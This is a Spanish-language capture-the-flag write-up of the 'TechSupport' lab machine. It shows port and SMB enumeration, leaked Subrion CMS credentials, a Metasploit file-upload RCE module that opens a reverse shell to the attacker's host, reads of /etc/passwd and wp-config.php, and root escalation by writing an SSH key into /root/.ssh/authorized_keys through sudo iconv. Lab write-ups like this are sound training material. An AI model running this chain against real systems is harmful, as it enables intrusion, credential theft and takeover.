# Write-up TechSupport

**Autor**: Asier González

## Reconocimiento

Empiezo con un escaneo de puertos:
`nmap -sC -sV -O -Pn -p 1-10000 -T4 10.128.136.237`



Puertos descubiertos:

- 22/tcp (SSH)
- 80/tcp (HTTP)
- 139/tcp (Samba)
- 445/tcp (Samba)

Como no tengo credenciales para SSH, me centro en los otros puertos.

SMB -> por si hay shares accesibles sin auth
HTTP -> por si hay alguna vulnerabilidad web

## Enumeración

### SMB

Listo los shares accesibles:
`smbmap -H IP -u '' -p ''`

Veo que hay un share llamado websvr que es accesible sin autenticación.



Intento conectarme y consigo entrar.
Listo los archivos para ver qué hay dentro y veo uno llamado "enter.txt".



Descargo ese archivo y lo leo. Y veo que hay unas credenciales admin para un Subrion CMS.

`admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk`

Además menciona que /subrion está roto y que hay que editarlo desde el panel. También que hay que editar el wordpress.



Tras buscar en internet sobre "cooked with magical formula hash" encuentro que se puede descifrar con cyberchef marcando la opción de "magic" y dejando esa opción por defecto.



Resultado: `Scam2021`.

Ahora tenemos que buscar dónde podemos introducir estas credenciales.

### Web

Entro en la web (IP de la máquina) y veo la página default de Apache.

Enumeramos directorios con gobuster:
`gobuster dir -u http://10.128.136.237 -w /usr/share/wordlists/dirb/common.txt`

Encontramos unos cuantos directorios, pero el más interesante es el de - /wordpress

Accedo a ese directorio desde la web y nos lleva a una página de "BestTech Tech Support".





Decidí hacer un dirsearch en wordpress para ver qué directorios tenía disponible la web, pero debido a que no tenía credenciales para el wordpress decidí enumerar también subrion antes de hacer nada.

`dirsearch -u 10.128.136.237/wordpress`

`dirsearch -u 10.128.136.237/subrion`





En el archivo de "enter.txt" se menciona que /subrion está roto y que hay que editarlo desde el panel. Por lo que las rutas de `/panel` me llamaron la atención.

Intento acceder a `/subrion` pero efectivamente no funciona, pero si accedo a la ruta descubierta con dirsearch de `/subrion/panel` podemos acceder al login del panel de administración del cms.



Probamos las credenciales que obtuvimos de "enter.txt":

`admin:Scam2021`

y conseguimos entrar.



## Explotación

Investigando el dashboard de Subrion, vamos a System > General y descubrimos que es la version 4.2.



Decido buscar en internet "Subrion 4.2 exploit" y encuentro un RCE.


Y que tiene un modulo de metasploit: `exploit/multi/http/subrion_cms_file_upload_rce` para esto.





Procedemos a usar metasploit con la maquina victima:

`msfconsole
use exploit/multi/http/subrion_cms_file_upload_rce
set RHOSTS IP_OBJETIVO
set TARGETURI /subrion/
set USERNAME admin
set PASSWORD Scam2021
set LHOST TU_IP_VPN
run`



Conseguimos una shell como www-data.



## Post-Explotación

No me funcionan los comandos de "getuid" "getprivs" "whoami /priv" etc por lo que no estoy seguro de qué permisos tengo.

Hago: `cat /etc/passwd | grep sh` para ver usuarios válidos y si me deja, puedo observar dos usuarios interesantes: el root y un tal `scamsite`



Tras un rato investigando la máquina, empiezo a mirar si encuentro algo relacionado con wordpress.

`cat /var/www/html/wordpress/wp-config.php`

Con este comando puedo observar:
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```



Podemos correlacionar el usuario `scamsite` con la password `ImAScammerLOL!123!` de wordpress ?

Pruebo primero en la terminal meterpreter con `su scamsite` pero no me deja.

Asi que pruebo a ver si me deja por una conexion ssh:

`ssh scamsite@IP`

y efectivamente me deja entrar.



Ahora que tengo una shell como scamsite, empiezo a investigar la máquina. Lo primero que hago es `sudo -l` para ver si tengo permisos para ejecutar algo como root.

Y veo que puedo ejecutar un binario como root y sin password. Por lo que el siguiente paso es mirar GTFOBins para ver si puedo escalar privilegios con `iconv`.




## Escalada de privilegios

La mejor forma para obtener una shell completa con privilegios de root será generar una ssh-keygen y copiar la clave publica a la maquina victima mediante el comando que nos da GTFOBins.

Generamos la clave con `ssh-keygen`:



usando el comando que nos da GTFOBins copiamos nuestra clave generada en el archivo authorized_keys del usuario root desde nuestra conexion ssh de scamsite:

`echo 'CLAVE' | sudo /usr/bin/iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys`



Procedemos a realizar la conexion ssh como root: `ssh root@IP`

